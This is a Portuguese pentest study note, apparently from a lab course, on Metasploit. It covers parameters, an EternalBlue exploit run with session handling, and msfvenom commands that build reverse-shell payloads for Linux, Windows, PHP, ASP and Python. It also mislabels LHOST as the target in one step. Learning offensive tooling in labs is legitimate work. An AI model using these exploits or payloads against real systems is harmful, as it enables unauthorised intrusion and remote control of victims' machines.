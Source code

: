 ```yaml
---
tags:
  - pentest
---
```

# Parâmetros Metasploit
- **RHOSTS**: "*Host remoto*", o endereço IP do sistema de destino. É possível definir um único endereço IP ou um intervalo de rede. Isso dará suporte à notação CIDR (Classless Inter-Domain Routing) (/24, /16, etc.) ou a um intervalo de rede (10.10.10.x - 10.10.10.y). Você também pode usar um arquivo em que os alvos são listados, um alvo por linha, usando file:/path/of/the/target_file.txt, como você pode ver abaixo.
- **RPORT**: "*Porta remota*", a porta no sistema de destino em que o aplicativo vulnerável está sendo executado.
- **PAYLOAD**: O *payload* que você usará com a exploração.
- **LHOST**: "*Localhost*", o endereço IP da máquina atacante (seu AttackBox ou Kali Linux).
- **LPORT**: "*Local port*" (porta local), a porta que você usará para que o shell reverso se conecte novamente. Essa é uma porta em seu computador de ataque e você pode defini-la como qualquer porta que não seja usada por nenhum outro aplicativo.
- **SESSÃO**: cada conexão estabelecida com o sistema de destino usando o Metasploit terá um *ID de sessão*. Você usará isso com módulos de pós-exploração que se conectarão ao sistema de destino usando uma conexão existente.
# Scan e Exploit
1. Você pode pesquisar exploits usando o comando `search`, obter mais informações sobre o exploit usando o comando info e iniciar o exploit usando exploit.  O comando `show payloads` lista outros comandos que podem ser usados com esse exploit específico.
   
```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
#payload => generic/shell_reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

```

2. Settar o LHOST, que será nosso **alvo** e iniciar o exploit. Nesse exemplo foi usado o *eternalblue* que tem como alvo sistemas *Windows 7*
```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.186.44
lhost => 10.10.186.44
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 
```

#### Sessions
Digitando CTRL+Z, podemos deixar a sessão em segundo plano. E digitando `sessions -i` podemos acessar a session anteriormente estabelecida
```shell
C:\Windows\system32>^Z
Background session 1? [y/N]  y

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
###############################################################
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...

C:\Windows\system32> #sessão reestabelecida
```

# Msfvenon
O Msfvenom permite a criação de payloads em muitos formatos diferentes (PHP, exe, dll, elf etc.) e para muitos sistemas-alvo diferentes (Apple, Windows, Android, Linux etc.).

```shell
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php

msfconsole

msf6 > use exploit/multi/handler 
```

Como sempre, será necessário settar o `LHOST` e a `LPORT` para nosso alvo. Por fim, rodar o o exploit

```shell
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19

msf6 exploit(multi/handler) > set lport 7777
lport => 7777

msf6 exploit(multi/handler) > run
```

# Outros Payloads
Com base na configuração do sistema de destino (sistema operacional, servidor da Web instalado, interpretador instalado etc.), o msfvenom pode ser usado para criar payloads em quase todos os formatos. Abaixo estão alguns exemplos que você usará com frequência:

> Em todos esses exemplos, *LHOST* será o endereço **IP de sua máquina atacante** e *LPORT* será a **porta na qual seu manipulador escutará**.
#### Formato executável e vinculável do Linux (elf)
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

O formato .elf é comparável ao formato .exe do Windows. Esses são arquivos executáveis para Linux. No entanto, talvez você ainda precise garantir que eles tenham permissões de execução no computador de destino. Por exemplo, depois de ter o arquivo shell.elf no computador de destino, use o comando chmod +x shell.elf para conceder permissões de execução. Uma vez feito isso, você pode executar esse arquivo digitando ./shell.elf na linha de comando do computador de destino.
#### Windows
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
#### PHP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
#### ASP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
#### Python
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

